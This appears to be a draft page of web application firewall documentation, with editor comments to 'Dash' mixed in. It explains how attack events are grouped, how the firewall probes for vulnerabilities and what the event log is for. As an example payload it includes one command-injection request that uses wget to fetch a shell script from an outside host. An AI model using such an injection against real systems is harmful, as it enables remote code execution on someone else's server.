 WAF groups several requests into a single event if they have these three elements in common:

- **Attack type**, which could be sqli, xss, rce, ptrav, crlf, nosqli, overlimit_res, xxe, ldapi, scanner, ssti, ssi, mail_injection, invalid_xml, data_bomb, dirbust, brute, vpatch, infoleak, or redir.
- **Payload**, which is a segment of a harmful request that includes directives for the targeted application and aids in identifying the attack type. For instance, if an attacker aims to insert harmful code into your application (RCE attack) and sends this request: ```curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh```, the harmful payload is ```wget+http://s```, which instructs the application to start downloading data. Some malicious requests, such as certain brute-force attacks, don't carry a payload.
- **The URL of a webpage or application file** to which the request is sent.

Even if the attacker's IP address and the timing of the requests is varied, attacks will nevertheless be consolidated into one event if they utilize the same attack type, payload, and target URL.

<img src="https://assets.gcore.pro/docs/web-security/manage-waf/view-the-history-of-attacks-on-your-application/image_1863.png" alt="attack type" width="80%">
Dash, the image above is great, but I think you should write something about being able to view the sub-events (or whatever you call them) by clicking the + for any given event. That way, the user can see if the event was one request or many.
### How WAF identifies vulnerabilities

Here's how our WAF identifies vulnerabilities:

1. Periodically, WAF sends out non-harmful test requests to gauge the application's response. These requests aren't malicious but provide insight into how the application would respond during a real attack.
2. When an actual attack occurs, WAF stops it. Then, it duplicates the attack request, removes the malicious element and cookies, and sends several similar requests to the application under WAF's name. These requests won't cause damage, but they assist in understanding how the application would react to an attack if WAF didn't intervene.
3. It assesses the outcome of the checks from Steps 1 and 2. If the requests achieve their intended result, WAF deems that a vulnerability exists. If the application's response doesn't suggest it's susceptible to an attack, then there's no vulnerability.
Dash, add to number 3 what happens if there is a vulnerability.
Here's an example of the check: An attacker sends an “open redirect” (redir) type request. This type of attack alters links within your application so that when a user clicks on a link, they're directed to a fraudster’s page. WAF identifies the malicious request, removes the cookies and the malicious part, and then sends several similar but “neutralized” requests to the application. If the application fails to reject the requests, WAF considers this to be a vulnerability. If the application stops the requests, WAF determines there's no vulnerability.

### What is the purpose of Events?

Events provide detailed insights into malicious requests directed at your application. Here are three scenarios where this can be beneficial:

**Identify and resolve vulnerabilities**. By examining “incident”-type events, you can determine which parts of your application are susceptible and which types of attacks. This allows you to address these vulnerabilities.

**Prevent specific attacks**. The event log lets you see if your application is frequently targeted from a particular region or IP address. While these attacks are innocuous (since WAF blocks them,) they still require processing by your server, thereby draining resources. To conserve server resources, you can opt to block the offending IP addresses or regions in the “Access Settings” as per the <a href="https://gcore.com/docs/web-security/set-the-access-policy-for-a-protected-resource" target="_blank">Access Policy guide</a>.
Dash, can we be more specific about "draining resources"? I guess it means money, right? Does it also affect performance for legitimate users during the attack or sth?
**Gather analytical data to secure the private sections of your application**. By analyzing the logs of malicious requests, you can ascertain the most common attack techniques and the IP addresses frequently used. Using this information, you can better protect internal resources not covered by WAF (like an application administration panel or a private platform for employees) against common attacks. Additionally, you can block the IP addresses of frequent offenders.
